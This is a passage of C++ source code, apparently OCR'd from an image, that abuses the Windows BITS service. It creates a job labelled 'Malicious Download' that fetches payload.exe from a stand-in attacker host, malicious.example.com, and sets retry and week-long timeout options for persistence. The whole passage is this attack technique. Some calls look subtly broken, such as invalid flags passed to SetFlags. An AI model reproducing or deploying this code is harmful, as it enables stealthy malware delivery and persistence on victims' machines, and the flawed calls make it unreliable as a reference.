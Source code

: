```
    hr = CoCreateInstance(__uuidof(BackgroundCopyManager), NULL, CLSCTX_LOCAL_SERVER, __uuidof(IBackgroundCopyManager), (void**)&pBitsManager);

    if (FAILED(hr)) {

        std::cerr << "Failed to create BITS Manager: " << hr << std::endl;

        return 1;

    }

    // Create a Download Job

    hr = pBitsManager->CreateJob(L"Malicious Download", BG_JOB_TYPE_DOWNLOAD, &jobGUID, &pJob);

    if (FAILED(hr)) {

        std::cerr << "Failed to create BITS Job: " << hr << std::endl;

        pBitsManager->Release();

        return 1;

    }

    // Add a file to the BITS job

    hr = pJob->AddFile(L"http://malicious.example.com/payload.exe", L"C:\\path\\to\\local\\payload.exe");

    if (FAILED(hr)) {

        std::cerr << "Failed to add file to BITS Job: " << hr << std::endl;

        pJob->Release();

        pBitsManager->Release();

        return 1;

    }

    // Set the job to be persistent and to retry on failure

    pJob->SetMinimumRetryDelay(60); // Retry after 60 seconds if failed

    pJob->SetNoProgressTimeout(604800); // 1 week timeout for job completion

    pJob->SetFlags(BG_JOB_ENUM::BG_JOB_TYPE_DOWNLOAD | BG_JOB_ENUM::BG_JOB_PERSISTENT);

    // Resume the job

    pJob->Resume();

    std::cout << "BITS Job created successfully." << std::endl;

    // Cleanup

    pJob->Release();

    pBitsManager->Release();

    CoUninitialize();
```